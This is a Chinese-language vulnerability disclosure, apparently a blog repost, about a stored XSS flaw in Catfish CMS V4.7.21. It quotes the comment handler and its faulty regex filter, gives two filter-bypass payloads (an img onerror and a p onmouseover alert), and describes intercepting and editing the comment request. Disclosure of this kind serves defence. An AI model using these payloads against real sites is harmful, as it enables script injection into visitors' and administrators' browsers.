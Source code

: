 ```yaml
---
title: Catfish cms V 4.7.21 存储性xss
date: 2018-4-8 8:50:30
tags: Web安全
toc: true
---
```


本文首发 [先知社区 Catfish(鲶鱼) CMS V 4.7.21 存储型XSS漏洞](https://xz.aliyun.com/t/2253)
> Catfish(鲶鱼) CMS
> 开源免费的PHP内容管理系统
不需要高深专业技术轻松搭建网站
使用简单　灵活方便　稳定快捷
风格切换　想换就换　适应不同需求
最新版本：V 4.7.21
http://www.catfish-cms.com/

### 分析

文件在 \application\index\controller\Index.php 评论处存在xss

```
public function pinglun()
{
    $beipinglunren = Db::name('posts')->where('id',Request::instance()->post('id'))->field('post_author')->find();
    if($beipinglunren['post_author'] != Session::get($this->session_prefix.'user_id'))
    {
        $comment = Db::name('options')->where('option_name','comment')->field('option_value')->find();
        $plzt = 1;
        if($comment['option_value'] == 1)
        {
            $plzt = 0;
        }
        $data = [
                'post_id' => Request::instance()->post('id'),
                'url' => 'index/Index/article/id/'.Request::instance()->post('id'),
                'uid' => Session::get($this->session_prefix.'user_id'),
                'to_uid' => $beipinglunren['post_author'],
                'createtime' => date("Y-m-d H:i:s"),
                'content' => $this->filterJs(Request::instance()->post('pinglun')),
                'status' => $plzt
        ];
        Db::name('comments')->insert($data);
        Db::name('posts')
                ->where('id', Request::instance()->post('id'))
                ->update([
                    'post_comment' => date("Y-m-d H:i:s"),
                    'comment_count' => ['exp','comment_count+1']
                ]);
        $param = '';
        Hook::add('comment_post',$this->plugins);
        Hook::listen('comment_post',$param,$this->ccc);
    }
}
```

问题点如下：

        'content' => $this->filterJs(Request::instance()->post('pinglun')),
        Db::name('comments')->insert($data);
data中的content经filterJs过滤后插入数据库

filterJs过滤函数如下
```php
protected function filterJs($str)
{
    while(stripos($str,'<script') !== false || stripos($str,'<style') !== false || stripos($str,'<iframe') !== false || stripos($str,'<frame') !== false || stripos($str,'onclick') !== false)
    {
        $str = preg_replace(['/<script[\s\S]*?<\/script[\s]*>/i','/<style[\s\S]*?<\/style[\s]*>/i','/<iframe[\s\S]*?[<\/iframe|\/][\s]*>/i','/<frame[\s\S]*?[<\/frame|\/][\s]*>/i','/on[A-Za-z]+[\s]*=[\s]*[\'|"][\s\S]*?[\'|"]/i'],'',$str);
    }
    return $str;
}
```
正则有问题。
列举2个绕过payload

```html
    <img src=x onerror=alert(1)> 
    <p onmouseover="javascript:alert(1);">M</p>
```

### 验证

注册用户登陆，对文章评论
![](https://xzfile.aliyuncs.com/media/upload/picture/20180408213625-d5462f04-3b31-1.png)

提交评论抓包改为

![](https://xzfile.aliyuncs.com/media/upload/picture/20180408213625-d5611116-3b31-1.png)

浏览文章或管理员登陆后台可触发
![](https://xzfile.aliyuncs.com/media/upload/picture/20180408213625-d57f5662-3b31-1.png)
![](https://xzfile.aliyuncs.com/media/upload/picture/20180408213625-d59401ac-3b31-1.png)